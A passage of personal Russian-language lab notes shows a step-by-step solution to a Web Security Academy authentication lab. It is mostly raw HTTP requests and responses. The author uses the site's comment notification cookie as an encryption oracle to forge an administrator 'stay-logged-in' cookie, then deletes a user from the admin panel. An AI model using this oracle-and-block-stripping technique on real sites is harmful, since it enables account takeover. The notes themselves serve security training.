Referer: https://0ad100be04ea5441832a558400ef0030.web-security-academy.net/post?postId=5
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

ответ Internal Server Error


-----


без пробелов


запрос 
```http
GET /admin HTTP/2
Host: 0ad100be04ea5441832a558400ef0030.web-security-academy.net
Cookie: stay-logged-in=%70%35%34%74%79%53%7A%35%50%7A%61%39%6E%65%6D%78%34%42%34%61%6A%50%69%34%38%69%58%2F%64%37%78%77%6F%4E%73%42%2F%74%68%77%6E%45%49%4A%6B%7A%31%36%73%2F%54%67%3D%3D; session=
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad100be04ea5441832a558400ef0030.web-security-academy.net/post?postId=5
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

ответ Internal Server Error


----------
⭐️⭐️⭐️⭐️⭐️⭐️⭐️⭐️⭐️⭐️⭐️⭐️⭐️⭐️⭐️⭐️⭐️
# все заного с нуля:

отправил протой коммент

```http
POST /post/comment HTTP/2
Host: 0ad100be04ea5441832a558400ef0030.web-security-academy.net
Cookie: notification=w65upjVIBSca%2bBmvp6vLLQuQ276evSmeZopXxpGQt4ja7dEC07yxq4Tyew6Aw4YzSdoJFJETiHi2he37TnxukaXiNRsdhGOa1X%2fy2OSos2M%3d; stay-logged-in=3zb%2fAvviGm2DeAZD%2bDM29o6W4mQeKk2L9dvZULJTI8Y%3d; session=UlYNqXkgBxtoSMoSpmw2DlzcTFsooGtH
Content-Length: 102
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0ad100be04ea5441832a558400ef0030.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad100be04ea5441832a558400ef0030.web-security-academy.net/post?postId=1
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=jByYCuI4ysbmZLYKC1zNsHcoqPtvJsIQ&postId=1&comment=werwe&name=hacker&email=hacker%40bk.ru&website=
```


подставил 
 notification=3zb%2fAvviGm2DeAZD%2bDM29o6W4mQeKk2L9dvZULJTI8Y%3d;

```http
GET /post?postId=1 HTTP/2
Host: 0ad100be04ea5441832a558400ef0030.web-security-academy.net
Cookie: notification=3zb%2fAvviGm2DeAZD%2bDM29o6W4mQeKk2L9dvZULJTI8Y%3d; stay-logged-in=3zb%2fAvviGm2DeAZD%2bDM29o6W4mQeKk2L9dvZULJTI8Y%3d; session=UlYNqXkgBxtoSMoSpmw2DlzcTFsooGtH
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad100be04ea5441832a558400ef0030.web-security-academy.net/post/comment/confirmation?postId=1
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

получил                    wiener:1772212957892        




вывод с этого шага - что notification декодирует то что кодирует запрос POST /post/comment из инпута &email=

#### итого у меня запрос  /post/comment кодирует
#### и запрос  /post?postId=1       декодирует

======

administrator:1772212957892


отправляю запрос (кодирую)

```http
POST /post/comment HTTP/2
Host: 0ad100be04ea5441832a558400ef0030.web-security-academy.net
Cookie: notification=w65upjVIBSca%2bBmvp6vLLQuQ276evSmeZopXxpGQt4ja7dEC07yxq4Tyew6Aw4YzSdoJFJETiHi2he37TnxukaXiNRsdhGOa1X%2fy2OSos2M%3d; stay-logged-in=3zb%2fAvviGm2DeAZD%2bDM29o6W4mQeKk2L9dvZULJTI8Y%3d; session=UlYNqXkgBxtoSMoSpmw2DlzcTFsooGtH
Content-Length: 102
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0ad100be04ea5441832a558400ef0030.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad100be04ea5441832a558400ef0030.web-security-academy.net/post?postId=1
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=jByYCuI4ysbmZLYKC1zNsHcoqPtvJsIQ&postId=1&comment=werwe&name=hacker&email=administrator:1772212957892&website=
```


получил ответ

```http
HTTP/2 302 Found
Location: /post?postId=1
Set-Cookie: notification=w65upjVIBSca%2bBmvp6vLLQDNx10mB%2fMq5aU5gk%2fyGK4sPd%2b0KOoPWIa9XZtAH395jRDlP3KPMUsgnnMwAKj%2fGQ%3d%3d; HttpOnly
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

вот кодированная строка  administrator:1772212957892 

notification=w65upjVIBSca%2bBmvp6vLLQDNx10mB%2fMq5aU5gk%2fyGK4sPd%2b0KOoPWIa9XZtAH395jRDlP3KPMUsgnnMwAKj%2fGQ%3d%3d


отправил его 

```http
GET /post?postId=1 HTTP/2
Host: 0ad100be04ea5441832a558400ef0030.web-security-academy.net
Cookie: notification=w65upjVIBSca%2bBmvp6vLLQDNx10mB%2fMq5aU5gk%2fyGK4sPd%2b0KOoPWIa9XZtAH395jRDlP3KPMUsgnnMwAKj%2fGQ%3d%3d; stay-logged-in=3zb%2fAvviGm2DeAZD%2bDM29o6W4mQeKk2L9dvZULJTI8Y%3d; session=UlYNqXkgBxtoSMoSpmw2DlzcTFsooGtH
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad100be04ea5441832a558400ef0030.web-security-academy.net/post/comment/confirmation?postId=1
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

в ответе получаю 
```
                   Invalid email address: administrator:1772212957892
                   
                   хотя в оригинале было
                   
                   wiener:1772212957892       
                   
                   то есть вот эта часть лишняя Invalid email address: 
                   это первые 23 символа (считая пробелы)
```

--

далее 
беру  ориг 

w65upjVIBSca%2bBmvp6vLLQDNx10mB%2fMq5aU5gk%2fyGK4sPd%2b0KOoPWIa9XZtAH395jRDlP3KPMUsgnnMwAKj%2fGQ%3d%3d


иду в декодер декодирую URL
получаю

w65upjVIBSca+Bmvp6vLLQDNx10mB/Mq5aU5gk/yGK4sPd+0KOoPWIa9XZtAH395jRDlP3KPMUsgnnMwAKj/GQ==

декодирую base 64

выделил первый байт
правой кноп мыши -> удалить ->




удаляю первые 23 байта

и шифрую полученное в base64

KuWlOYJP8hiuLD3ftCjqD1iGvV2bQB9/eY0Q5T9yjzFLIJ5zMACo/xk=

и еще шифрую ччерез URL

и получаю

%4B%75%57%6C%4F%59%4A%50%38%68%69%75%4C%44%33%66%74%43%6A%71%44%31%69%47%76%56%32%62%51%42%39%2F%65%59%30%51%35%54%39%79%6A%7A%46%4C%49%4A%35%7A%4D%41%43%6F%2F%78%6B%3D


отправляю запрос который "декодирует"
```http
GET /post?postId=1 HTTP/2
Host: 0ad100be04ea5441832a558400ef0030.web-security-academy.net
Cookie: notification=%4B%75%57%6C%4F%59%4A%50%38%68%69%75%4C%44%33%66%74%43%6A%71%44%31%69%47%76%56%32%62%51%42%39%2F%65%59%30%51%35%54%39%79%6A%7A%46%4C%49%4A%35%7A%4D%41%43%6F%2F%78%6B%3D; stay-logged-in=3zb%2fAvviGm2DeAZD%2bDM29o6W4mQeKk2L9dvZULJTI8Y%3d; session=UlYNqXkgBxtoSMoSpmw2DlzcTFsooGtH
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad100be04ea5441832a558400ef0030.web-security-academy.net/post/comment/confirmation?postId=1
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

```

ответ
 500 
 Input length must be multiple of 16 when decrypting with padded cipher
Длина входных данных должна быть кратна 16 при расшифровке с использованием расширенного шифра

-----

отправлю запрос с недостающими символами
xxxxxxxxxadministrator:1772212957892

```http
POST /post/comment HTTP/2
Host: 0ad100be04ea5441832a558400ef0030.web-security-academy.net
Cookie: notification=w65upjVIBSca%2bBmvp6vLLQuQ276evSmeZopXxpGQt4ja7dEC07yxq4Tyew6Aw4YzSdoJFJETiHi2he37TnxukaXiNRsdhGOa1X%2fy2OSos2M%3d; stay-logged-in=3zb%2fAvviGm2DeAZD%2bDM29o6W4mQeKk2L9dvZULJTI8Y%3d; session=UlYNqXkgBxtoSMoSpmw2DlzcTFsooGtH
Content-Length: 115
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0ad100be04ea5441832a558400ef0030.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad100be04ea5441832a558400ef0030.web-security-academy.net/post?postId=1
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=jByYCuI4ysbmZLYKC1zNsHcoqPtvJsIQ&postId=1&comment=werwe&name=hacker&email=administrator:1772212957892&website=
```

получил ответ
```http
HTTP/2 302 Found
Location: /post?postId=1
Set-Cookie: notification=w65upjVIBSca%2bBmvp6vLLUBtpqF87Qgqp54%2btySz5Pza9nemx4B4ajPi48iX%2fd7xwoNsB%2fthwnEIJk%2bz16s%2fTg%3d%3d; HttpOnly
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```

беру  w65upjVIBSca%2bBmvp6vLLUBtpqF87Qgqp54%2btySz5Pza9nemx4B4ajPi48iX%2fd7xwoNsB%2fthwnEIJk%2bz16s%2fTg%3d%3d

иду в декодер  

декодирую url
w65upjVIBSca+Bmvp6vLLUBtpqF87Qgqp54+tySz5Pza9nemx4B4ajPi48iX/d7xwoNsB/thwnEIJk+z16s/Tg==

потом декодирую base64

удаляю первые 32 байта




32 байта и должно потом остаться


кодирую base64

2vZ3pseAeGoz4uPIl/3e8cKDbAf7YcJxCCZPs9erP04=

кодирую url

%32%76%5A%33%70%73%65%41%65%47%6F%7A%34%75%50%49%6C%2F%33%65%38%63%4B%44%62%41%66%37%59%63%4A%78%43%43%5A%50%73%39%65%72%50%30%34%3D

отправляю запрос  для самопроверки
```http
GET /post?postId=1 HTTP/2
Host: 0ad100be04ea5441832a558400ef0030.web-security-academy.net
Cookie: notification=%32%76%5A%33%70%73%65%41%65%47%6F%7A%34%75%50%49%6C%2F%33%65%38%63%4B%44%62%41%66%37%59%63%4A%78%43%43%5A%50%73%39%65%72%50%30%34%3D; stay-logged-in=3zb%2fAvviGm2DeAZD%2bDM29o6W4mQeKk2L9dvZULJTI8Y%3d; session=UlYNqXkgBxtoSMoSpmw2DlzcTFsooGtH
```




получаю ответ                    administrator:1772212957892 
он аналогичен оригиналу  wiener:1772212957892        

а значит кодировка верная и ее можно подставить в запрос доступа к своему аккаунту!!

теперь беру простой запрос на главную страницу и подставляю в него свой шифрованный обект
куку сессии - удалил
```http
GET / HTTP/2
Host: 0ad100be04ea5441832a558400ef0030.web-security-academy.net
Cookie: stay-logged-in=%32%76%5A%33%70%73%65%41%65%47%6F%7A%34%75%50%49%6C%2F%33%65%38%63%4B%44%62%41%66%37%59%63%4A%78%43%43%5A%50%73%39%65%72%50%30%34%3D;
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
```

и получаю доступ к админке




удалил карлоса - победа... эта лаба вымотала мне мозг - но я ее досканально разобрал.. и решил, я наступил на все грабли что только можно было...

я почти сам ее решил - но неправильно кодировал и декодировал полученный шифр

----


## почему это стало возможно ? защита?


шифрование и дешифрование было доступно прямо на сайте.. (очень удобно..для злоумышленника)


ну и к админке я доступ получил без кук
без токенов
просто по шифру.. 

шифрам тоже нельзя доверять
